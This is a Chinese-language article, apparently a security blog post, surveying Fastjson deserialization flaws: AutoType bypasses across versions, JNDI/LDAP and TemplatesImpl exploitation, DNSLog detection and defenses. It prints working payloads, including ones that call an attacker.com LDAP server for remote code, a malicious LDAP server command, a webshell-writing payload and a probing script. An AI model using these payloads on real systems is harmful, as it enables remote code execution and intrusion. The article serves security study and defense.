



## 前言

Fastjson 是阿里巴巴开源的高性能 JSON 解析库，广泛应用于国内外 Java 项目。自 2017 年首个反序列化漏洞披露以来，Fastjson 便成为攻防焦点——官方连续发布几十个安全版本，攻击者也不断挖掘新的 bypass。本文从 AutoType 机制出发，系统梳理漏洞原理、利用方式、版本绕过及检测方法。

## 一、Fastjson 基础与 AutoType 机制

### 1.1 序列化与反序列化

```java
// 序列化
User user = new User("admin", "123456");
String json = JSON.toJSONString(user);
// {"password":"123456","username":"admin"}

// 反序列化
JSONObject obj = JSON.parseObject(json);           // 不指定类型
User u = JSON.parseObject(json, User.class);       // 指定类型
```

### 1.2 SerializerFeature.WriteClassName

开启 `WriteClassName` 后，序列化 JSON 会携带 `@type` 字段：

```java
String json = JSON.toJSONString(user, SerializerFeature.WriteClassName);
// {"@type":"com.example.User","password":"123456","username":"admin"}
```

### 1.3 AutoType 机制

当 `@type` 存在时，Fastjson 通过 `Class.forName()` 或 `TypeUtils.loadClass()` 动态加载指定类并调用其 setter/getter。这一机制允许攻击者指定任意类触发恶意代码执行。

**AutoType 工作流程：**



## 二、漏洞心脏：checkAutoType

`checkAutoType` 位于 `ParserConfig` 中，对 `@type` 的类名进行白名单/黑名单校验：

- **白名单 (acceptList)**：允许直接加载的类。
- **黑名单 (denyList)**：禁止加载的危险类（如 `JdbcRowSetImpl`）。
- **autoTypeSupport**：全局开关，1.2.25 引入，默认 `false`。

攻防双方围绕 `checkAutoType` 展开了持续多年的对抗——每次黑名单修补都伴随着新的 bypass。

## 三、版本演变与 Bypass 历史

### 3.1 Fastjson <= 1.2.24：黄金时代

没有 `checkAutoType`，任何危险类均可直接利用：

```java
// 经典 JdbcRowSetImpl Payload
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://attacker.com/Exploit",
  "autoCommit": true
}
```

`setAutoCommit(true)` 触发 JNDI lookup，连接恶意 LDAP/RMI 服务器加载远程字节码执行命令。

### 3.2 Fastjson 1.2.25 - 1.2.43：字符绕过时代

| 版本 | 绕过技术 | 原理 |
|------|----------|------|
| 1.2.25 | L; 包裹 | 类名前加 `L` 后加 `;` 绕过黑名单字符串匹配 |
| 1.2.41 | L; 去壳 | `TypeUtils.loadClass` 加载前自动去除外层 `L...;` |
| 1.2.42 | LL;; 双写 | 双写 `LL`+`;;`，逐层剥离后恢复原始类名 |
| 1.2.43 | `[{` 绕过 | `[` 开头触发数组解析，绕过类名校验 |

```java
// 1.2.41 绕过
{"@type": "Lcom.sun.rowset.JdbcRowSetImpl;", "dataSourceName": "ldap://x.dnslog.cn/Exp", "autoCommit": true}

// 1.2.42 双写绕过
{"@type": "LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName": "ldap://x.dnslog.cn/Exp", "autoCommit": true}
```

### 3.3 Fastjson 1.2.44 - 1.2.46：黑名单扩充

官方修复双写绕过后，攻击者转向不在黑名单中的新利用链：

- `org.apache.ibatis.datasource.jndi.JndiDataSourceFactory` — MyBatis JNDI 注入
- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` — `_bytecodes` 加载恶意字节码

### 3.4 Fastjson 1.2.47：通用绕过（缓存投毒）

利用 `java.lang.Class` 将恶意类名写入 `mappings` 缓存，后续 `checkAutoType` 直接从缓存命中，**完全绕过黑名单**：

```json
{
  "a": { "@type": "java.lang.Class", "val": "com.sun.rowset.JdbcRowSetImpl" },
  "b": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://attacker.com/Exploit",
    "autoCommit": true
  }
}
```



### 3.5 Fastjson 1.2.48 - 1.2.68：缓存修补与 expectClass

**修补：** `mappings` 缓存安全控制、`expectClass` 限制反序列化类型、黑名单持续扩充。

**绕过：**
- `Throwable` 继承链：`ErrorBase` 子类的 `getMessage()` 触发 `InitialContext.lookup()`
- `AutoCloseable` 利用链：实现 `AutoCloseable` 接口的类可被自动调用 `close()`

### 3.6 Fastjson 1.2.69 - 1.2.83：后 AutoType 时代

- **Feature 绕过**：`SupportNonPublicField`、`SupportAutoType` 等不当配置导致绕过
- **高版本 JDK 绕过**：JDK 8u191+ 限制远程类加载后，转向本地 Gadget Chain + 特殊 JNDI Reference
- **白名单穿透**：挖掘白名单类中可利用的 setter 方法

## 四、核心利用方式

### 4.1 JNDI 注入

最经典、最高效的利用方式：

```bash
# 启动恶意 LDAP 服务 (marshalsec)
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://attacker.com/#Exploit 1389
```

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://attacker.com:1389/Exploit","autoCommit":true}
```

**利用条件：** JDK < 8u191 可远程加载字节码；高版本需结合本地 Gadget 或特殊 LDAP 返回。

### 4.2 JDBC 反序列化

利用恶意 MySQL 服务器返回序列化数据触发客户端反序列化：

```json
{"@type":"com.mysql.jdbc.JDBC4Connection","host":"evil_mysql","port":3306,"user":"detectCustomCollations"}
```

### 4.3 TemplatesImpl 字节码执行（不出网）

```json
{
  "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
  "_bytecodes": ["yv66vgAAADQA..."],
  "_name": "pwn",
  "_tfactory": {},
  "_outputProperties": {}
}
```

`getOutputProperties()` 加载 `_bytecodes` 中的恶意类，无需出网即可执行。

### 4.4 本地 Gadget Chain

| 利用类 | 依赖 | 触发机制 |
|--------|------|----------|
| `C3P0ImplDataSource` | c3p0 | JNDI lookup |
| `JndiDataSourceFactory` | MyBatis | JNDI lookup |
| `SimpleJndiBeanFactory` | Spring | JNDI lookup |
| `BcelClassLoader` | Apache BCEL | 动态加载字节码 |
| `GroovyClassLoader` | Groovy | 动态执行 Groovy 代码 |

## 五、DNSLog 检测

DNSLog 是检测 Fastjson 漏洞最常用的手段，通过构造 DNS 请求确认漏洞存在。

### 5.1 检测 Payload

```json
// Inet4Address 检测（最常用）
{"@type":"java.net.Inet4Address","val":"xxxx.dnslog.cn"}

// Inet6Address 检测
{"@type":"java.net.Inet6Address","val":"xxxx.dnslog.cn"}

// URL 类检测
{"@type":"java.net.URL","val":"http://xxxx.dnslog.cn"}

// JNDI + LDAP 检测
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxxx.dnslog.cn/Exp","autoCommit":true}
```

### 5.2 检测流程



### 5.3 自动化探测脚本

```python
import requests, uuid

def check_fastjson(url, dnslog):
    sub = str(uuid.uuid4())[:8]
    payloads = [
        '{"@type":"java.net.Inet4Address","val":"%s.%s"}' % (sub, dnslog),
        '{"@type":"java.net.Inet6Address","val":"%s.%s"}' % (sub, dnslog),
        '{"@type":"java.net.URL","val":"http://%s.%s"}' % (sub, dnslog),
        '{"@type":"java.net.InetSocketAddress"{"address":,"val":"%s.%s"}}' % (sub, dnslog),
    ]
    for p in payloads:
        try:
            requests.post(url, data=p, headers={"Content-Type":"application/json"}, timeout=5)
        except:
            pass
    return sub  # 到 DNSLog 平台查询此子域名的记录
```

## 六、不出网利用

目标无网络回显时的利用方式：

### 6.1 写文件获取 WebShell

```json
{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"/webapps/ROOT/shell.jsp","encoding":"UTF-8","append":false}
```

### 6.2 时间盲注

通过 sleep 延迟逐字节判断命令执行结果，适用于完全无回显场景。

### 6.3 内存马注入

利用 Spring/Tomcat 机制动态注册 Filter/Servlet/Listener/Controller，不落地文件：

```java
// 通过 Fastjson 反序列化注入 Spring Controller
// 借助 RequestMappingHandlerMapping 注册恶意路由
```

## 七、防御与修复

| 措施 | 操作 |
|------|------|
| 升级版本 | 升级至 **1.2.83 及以上版本** |
| 关闭 AutoType | `ParserConfig.getGlobalInstance().setAutoTypeSupport(false);` |
| 开启 SafeMode | `ParserConfig.getGlobalInstance().setSafeMode(true);` (1.2.68+) |
| WAF 规则 | 拦截含 `@type`、`JdbcRowSetImpl`、`TemplatesImpl` 等关键词的请求 |
| 升级 JDK | JDK 8u191+ 并添加 `-Dcom.sun.jndi.ldap.object.trustURLCodebase=false` |

## 八、总结

Fastjson 的攻防史是一部典型的"打补丁→找绕过→再打补丁"猫鼠游戏。从无防御到 AutoType 开关、黑白名单、缓存控制、SafeMode 多层防线，官方付出了巨大成本。

对攻防人员的价值：
1. **覆盖面广**——大量 Java 项目依赖 Fastjson
2. **探测成本低**——JNDI + DNSLog 组合简单高效
3. **绕过思路经典**——字符填充、缓存投毒、接口多态等技术可迁移至其他反序列化场景

对开发者的核心原则：**能关 AutoType 则关，能不用 Fastjson 则不用**。必须使用时保持最新版本并配置 SafeMode。

## 附录：版本与利用总结表

| 版本范围 | 关键防御 | 已知绕过 |
|----------|----------|----------|
| <= 1.2.24 | 无 | JdbcRowSetImpl 直接 RCE |
| 1.2.25 - 1.2.32 | autoTypeSupport + 黑名单 | L; 绕过 |
| 1.2.33 - 1.2.40 | 修复 L; | LL;; 双写绕过 |
| 1.2.41 - 1.2.42 | 修复 LL;; | [ 数组绕过 |
| 1.2.43 - 1.2.46 | 黑名单扩充 | MyBatis / TemplatesImpl 利用链 |
| 1.2.47 | 通用防御 | mappings 缓存投毒 (影响最广) |
| 1.2.48 - 1.2.67 | 缓存修复 + expectClass | Throwable 继承链 |
| 1.2.68 - 1.2.79 | SafeMode 引入 | 白名单穿透 + 新 Feature 绕过 |
| 1.2.80 - 1.2.83 | 黑/白名单完善 | 部分利用链残留 |

## 免责声明

**本文所述技术仅供安全研究与授权测试使用。未经授权对计算机信息系统进行渗透测试属于违法行为，可能导致民事或刑事责任。请务必在合法授权范围内进行安全测试。技术无罪，人心有责。**
